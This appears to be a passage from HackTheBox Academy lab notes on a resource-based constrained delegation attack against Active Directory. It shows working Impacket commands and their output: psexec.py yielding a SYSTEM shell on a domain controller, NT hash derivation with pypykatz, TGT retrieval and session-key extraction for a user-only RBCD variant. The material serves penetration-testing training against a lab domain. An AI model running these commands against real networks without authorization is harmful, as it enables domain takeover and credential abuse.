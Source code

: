 #### Connect as Administrator
```shell-session
slomkm@htb[/htb]$ psexec.py -k -no-pass dc01.inlanefreight.local

Impacket v0.10.1.dev1+20230330.124621.5026d261 - Copyright 2022 Fortra

[*] Requesting shares on dc01.inlanefreight.local.....
[*] Found writable share ADMIN$
[*] Uploading file jCXbAmVs.exe
[*] Opening SVCManager on dc01.inlanefreight.local.....
[*] Creating service FYxR on dc01.inlanefreight.local.....
[*] Starting service FYxR.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.2628]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```

**Note:** Make sure to configure `/etc/hosts` with the target IP and the domain name `dc01.inlanefreight.local`

---

## When MachineAccountQuota Is Set to 0

If we are unable to create a computer account or if the account we are targeting doesn't have an SPN, we can still perform the attack using a method discovered by James Forshaw. He discussed how to perform an [RBCD attack using a normal user](https://www.tiraniddo.dev/2022/05/exploiting-rbcd-using-normal-user.html).

#### Obtain a TGT Using the NT Hash

First, we need to obtain a TGT using the account NT hash to retrieve the TGT session key. To get the NT hash from the password in plain text, we can use `pypykatz`:
```shell-session
slomkm@htb[/htb]$ pypykatz crypto nt 'B3thR!ch@rd$'
de3d16603d7ded97bb47cd6641b1a392
```

Next, retrieve the TGT using `getTGT.py`:
```shell-session
slomkm@htb[/htb]$ getTGT.py INLANEFREIGHT.LOCAL/beth.richards -hashes :de3d16603d7ded97bb47cd6641b1a392 -dc-ip 10.129.205.35
Impacket v0.13.0.dev0+20240916.171021.65b774d - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in beth.richards.ccache
```

#### Obtain the Ticket Session Key

Ensure that the KDC can decrypt your TGT by obtaining the `Ticket Session Key`. This key is crucial for the next steps, as it allows you to pass the current TGT's session key as the new NT hash.
```shell-session
slomkm@htb[/htb]$ describeTicket.py beth.richards.ccache | grep 'Ticket Session Key'
[*] Ticket Session Key            : 7c3d8b8b135c7d574e423dcd826cab58
```
